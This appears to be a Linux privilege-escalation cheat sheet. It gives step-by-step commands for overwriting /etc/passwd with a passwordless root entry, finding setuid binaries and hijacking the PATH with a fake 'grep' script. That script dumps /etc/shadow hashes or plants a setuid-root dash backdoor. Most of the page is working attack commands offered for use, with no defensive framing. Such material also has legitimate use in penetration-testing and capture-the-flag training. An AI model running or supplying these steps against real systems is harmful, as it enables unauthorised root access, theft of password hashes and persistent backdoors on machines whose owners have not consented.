 # if you have write permissions for /etc/passwd 
back up current/etc/passwd
```
cp /etc/passwd /etc/passwd.bak
```
overwrite /etc/passwd to gain root access
```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


# ltrace
ltrace to find were a program makes system calls:
find a program with Setuid used
```
find /usr/bin -perm -4000
```
find a program that runs with root priveledges
```
ls -l </path/to/program>
```
try program to see what it requires, maybe try a --help flag. use ltrace to check to see if it calls another script or program that we have access to
```
ltrace </path/to/program> <required options to run>
```
look for system calls where the program is not a specific path for example if it calls grep without specifying a path if so create a script to run:

##Grab Hash script:
```
#!/bin/dash
cat /etc/shadow
```
## **note Bash likes to drop setuid permissions but Dash will not**
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program that has root priveledges and it should call your script and give you the output


# auto-root script
```
nano grep 
#!/bin/dash
cp /bin/dash backdoor
chown root:root backdoor
chmod u+s backdoor
```
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program backdoor